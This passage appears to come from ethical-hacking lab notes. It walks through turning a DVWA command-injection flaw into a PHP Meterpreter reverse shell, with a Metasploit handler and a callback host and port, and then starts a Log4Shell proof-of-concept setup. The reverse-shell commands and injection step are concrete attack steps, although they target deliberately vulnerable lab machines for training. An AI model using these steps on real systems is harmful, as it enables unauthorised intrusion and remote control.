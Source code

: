6. **Command Injection:**
    - Navigate to Command Injection.
    - Enter IP: `10.10.1.13`, Command: `copy C:\wamp64\www\DVWA\hackable\uploads\high.jpeg C:\wamp64\www\DVWA\hackable\uploads\shell.php`.
    - Submit and note the success message.

7. **Prepare Listener:**
    ```bash
    msfconsole
    ```
    - In Metasploit:
        ```bash
        use exploit/multi/handler
        set payload php/meterpreter/reverse_tcp
        set LHOST 10.10.1.13
        set LPORT 2222
        run
        ```

8. **Execute Payload:**
    - Open a new Firefox tab, visit http://10.10.1.22:8080/dvwa/hackable/uploads/shell.php

9. **Meterpreter Session:**
    - Switch to the Terminal; Meterpreter session should be established.

10. **View System Info:**
    ```bash
    sysinfo
    ```
---

#### Gain Access by Exploiting Log4j Vulnerability

[Log4j](https://github.com/kozmer/log4j-shell-poc) is an open-source framework that helps developers store various types of logs produced by users. Log4j, also known as Log4shell and LogJam, is a zero-day RCE (Remote Code Execution) vulnerability tracked under CVE-2021—44228. Log4j enables insecure JNDI lookups, which, when paired with the LDAP protocol, can be exploited to exfiltrate data or execute arbitrary code. Here, we will gain backdoor access by exploiting the Log4j vulnerability.

**Note:** In this scenario, we'll install a vulnerable application on the Ubuntu machine and use the Parrot Security machine as the host machine to target the application. Ensure that the Parrot Security virtual machine is running.

## Target Machine

1. Install Docker on the Ubuntu machine:
   ```bash
   sudo apt-get update
   sudo apt-get install docker.io
   ```

2. Navigate to the log4j-shell-poc directory:
   ```bash
   cd log4j-shell-poc/
   ```
